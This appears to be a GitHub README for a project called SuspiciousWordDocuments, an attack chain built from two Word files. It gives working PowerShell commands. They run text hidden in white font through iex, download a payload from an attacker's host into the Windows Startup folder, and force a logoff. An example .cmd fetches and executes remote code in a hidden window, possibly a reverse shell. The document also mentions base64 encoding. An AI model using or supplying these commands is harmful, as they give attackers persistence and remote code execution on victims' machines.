 # SuspiciousWordDocuments
You have received two Microsoft Word documents. Are the links safe?

# Description
Things aren't always what they seem when it comes to links. One document contains several links to different things on the web. The other looks like another plain document.
The RealJuicyWebLinks.docx file has a link that executes a PowerShell Command contained in wordfornotes.docx. Scenario: The wordfornotes commands are a way to establish persistence by grabbing the contents of a file from a hosted webserver and it's deposited in the user's Startup folder as .cmd. The .cmd example below is made to parse a file that could contain a reverse shell. A shutdown /l command is the last step to execute the .cmd file upon login from the user.

# Remember
wordfornotes.docx is saved in white font. 

This only works on Windows 10 and not windows 11. To work properly, save both files to downloads. Add your hosted IP, directory, and file to Document1 that you wished to be parsed/saved to the startup directory.

# How to use
Link number 1 must be copied and pasted to the Window's Search Box. wordfornotes.docx cannot be opened at the same time of Window's Search Box execution. If testing, remember to kill wordfornotes.docx.

Add your IP, Directory, and filename to wordfornotes.docx. Note: commands could be encoded in base64.

Both files saved to Downloads.

If you edit RealJuicyWebLinks, the suspicious link may need to be updated as well back to the initial.

# Stages
Call the other word document
```Powershell
c:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -c "&{$word = new-object -comobject word.application; $word.visible = $false; $doc = $word.Documents.Open(\"$env:userprofile\downloads\wordfornotes.docx\"); $doc.Paragraphs[1].range.text | iex}"
```
Request the commands hosted on a particular site
```Powershell
start msedge `https://www.youtube.com/watch?v=uXbGQiXsRes';iwr https://<YourIP>/Direcotory/filename -o "$env:userprofile\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\StartUp.cmd"; shutdown /l
```

# Example .cmd
```batch
@echo off

powershell.exe -windowstyle hidden "(iwr https:// YOUR IP/DIRECTORY/filename -UseBasicParsing) | iex"
```
